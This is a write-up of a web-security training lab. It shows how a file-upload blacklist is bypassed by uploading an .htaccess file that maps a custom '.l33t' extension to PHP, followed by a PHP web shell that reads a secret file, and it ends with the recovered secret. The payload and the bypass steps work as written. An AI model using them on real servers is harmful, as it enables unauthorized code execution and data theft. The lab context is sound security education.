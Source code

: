 
### Web shell upload via extension blacklist bypass : PRACTITIONER

---


> We need to read contents of the `/home/carlos/secret` file. Given login credentials `wiener:peter`.

Logging in as wiener.

![](./screenshots/lab1-login.png)

We see this my-account page.

![](./screenshots/lab1-account.png)


Trying to upload a PHP shell to obtain the secret file, while having BURPSUITE PROXY HTTP history open
```PHP
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
- This is called `shell.php`.

We get this response from the `POST` request.

![](./screenshots/lab4-resp.png)

> This is a Apache server as observed by the headers in the response. We can try to modify the `.htaccess` file to match any file extension to an executable MIME type, and then upload a file with the newly configured extension.

To do that, we go to the `POST` request that uploads the `shell.php` file and modify its body.
1. Change the filename to `.htaccess`.
2. Change the Content-Type to `text/plain`.
3. Change the actual payload to `AddType application/x-httpd-php .l33t`.

![](./screenshots/lab4-req.png)

> Now, we matched the `.l33t` extension to be executed similar to `php`.

Trying to upload the shell once again but this time with the `.l33t` extension in the `POST` request.

![](./screenshots/lab4-req-1.png)

> The file is uploaded normally.

Trying to access the shell by going to the my-account page and opening the `GET` request responsible for loading the image slot.

![](./screenshots/lab4-result.png)

> We see the script has executed, and the secret returned. Copying it to submit and complete the lab.
```
FiB3Qs2VEGwh2O7o6IUSPya7ufRNYP1Y
```

---
